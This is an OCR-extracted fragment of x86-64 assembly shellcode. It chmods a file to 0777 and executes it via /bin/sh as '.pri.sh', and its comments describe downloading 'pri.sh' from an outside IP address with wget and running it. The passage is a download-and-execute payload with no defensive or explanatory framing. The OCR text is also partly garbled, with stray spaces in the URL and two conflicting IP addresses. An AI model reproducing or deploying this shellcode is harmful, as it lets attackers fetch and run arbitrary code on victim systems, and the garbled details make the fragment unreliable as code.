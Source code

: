 	    xor rax,rax
	    mov al,61
	    syscall
	     
	    
	    
	    ;chmod x
	    xor rdx,rdx
	    mov si,0x1ff
	    push 0x78
	    mov rdi, rsp
	    xor rax, rax
	    mov al, 0x5a
	    syscall
	    
	    ;exec x
	    xor rax,rax
	    xor rdx,rdx
	    push rax
	    push rax
	     
	     
	    mov [rsp],dword '//bi'
	    mov [rsp+4],dword 'n/sh'
	     
	     
	    mov rdi,rsp
	     
	     
	    push rax
	    push rax 
	     
	    mov [rsp],dword 'pri'
	    mov [rsp+3],word '.s'
	    mov [rsp+5],byte 'h'
	    mov rsi,rsp
	     
	    push rdx
	    push rsi
	    push rdi
	     
	    mov rsi,rsp
	     
	    add rax,59
	    syscall
	    ;--------
	    ;close(fd)
	     
	    push r9
	    pop rdi
	     
	    push 3
	    pop rax
	    syscall
	    
	    wget:
	    
	    ;download 192.168.227.11//x with wget
	    
	    ;execve("/usr/bin//wget",{"/usr/bin//wget","http ://1 92.1 68.3 0.12 9/pr i.sh","-O",".pri.sh",NULL},NULL)
	     